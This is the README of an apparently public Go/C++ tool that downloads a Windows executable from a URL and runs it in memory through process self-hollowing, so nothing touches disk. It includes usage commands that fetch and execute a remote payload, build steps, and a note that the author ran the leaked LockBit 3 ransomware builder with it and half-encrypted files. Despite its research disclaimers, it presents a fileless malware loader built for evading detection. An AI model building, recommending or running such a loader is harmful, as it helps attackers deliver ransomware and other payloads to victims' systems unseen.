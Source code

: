 # go http memexec

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory using curl and never writes them to disk
- **Process Self-Hollowing**: Replaces the current process with the downloaded payload
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **Simple API**: Single command to download and execute payloads

## How It Works

go http memexec uses a sophisticated process self-hollowing technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Maps the PE file into memory with proper section permissions
3. Resolves imports and fixes relocations
4. Executes the payload by jumping to its entry point
5. The original process is replaced by the payload without writing any files to disk

## Usage

```bash
# Basic usage with default URL
./go-http-memexec

# Specify a custom download URL
./go-http-memexec https://example.com/payload.exe
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution

## Technical Details

The project combines Go for high-level coordination with C++ for low-level Windows API interaction:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing, import resolution, and relocation in native code
- Properly handles TLS callbacks and memory protection
- Updates the PEB to maintain process coherence after hollowing

## Build Instructions

```bash
# Build everything at once if you trust me :)
./build-all.sh

# if you don't, manual build process
# 1. Build the C++ library
cd cpp
gcc -c selfhollow.cpp relocate.cpp -I.
ar rcs librunpe.a selfhollow.o relocate.o

# 2. Build the Go executable
go mod tidy
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- GCC or compatible C++ compiler
- Go 1.16 or later

## Notes
- I have only tested this on Windows 10
- I have only tested with my own statically linked go binary payloads, and the old leaked lockbit3 builder (curl ran + downloaded in memory, and files haflway crypted, but microsoft defender picked it up, as it's 70/70 on VT lol)

## License

[MIT License](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations. 